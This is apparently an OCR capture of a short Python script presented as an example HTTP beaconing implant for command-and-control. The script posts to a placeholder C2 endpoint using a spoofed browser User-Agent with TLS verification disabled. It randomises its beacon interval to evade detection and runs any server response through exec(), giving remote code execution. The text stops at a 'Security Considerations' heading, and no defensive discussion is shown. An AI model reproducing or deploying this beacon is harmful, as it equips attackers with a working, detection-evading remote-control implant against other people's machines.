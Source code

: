 Here’s a simplified example of an HTTP beaconing script in Python that mimics legitimate traffic:

```python
import requests
import time
import random

# C2 server URL (example)
c2_url = "https://example.com/c2_endpoint"

# Headers to mimic legitimate traffic
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded"
}

def beacon():
    while True:
        try:
            # Example data to send
            data = {
                "beacon": "status_check",
                "system_info": "dummy_data"
            }
            
            response = requests.post(c2_url, headers=headers, data=data, verify=False)
            if response.status_code == 200:
                print("Beacon sent successfully.")
                # Handle response from C2 server
                handle_response(response.text)
            else:
                print(f"Error: {response.status_code}")
        except Exception as e:
            print(f"Exception: {e}")

        # Randomize sleep interval to avoid detection
        sleep_interval = random.randint(30, 300)  # 30 seconds to 5 minutes
        time.sleep(sleep_interval)

def handle_response(response_text):
    # Parse and execute commands from C2 server
    print(f"Received response: {response_text}")
    # Example: execute received command
    exec(response_text)

if __name__ == "__main__":
    beacon()
```

### Security Considerations:
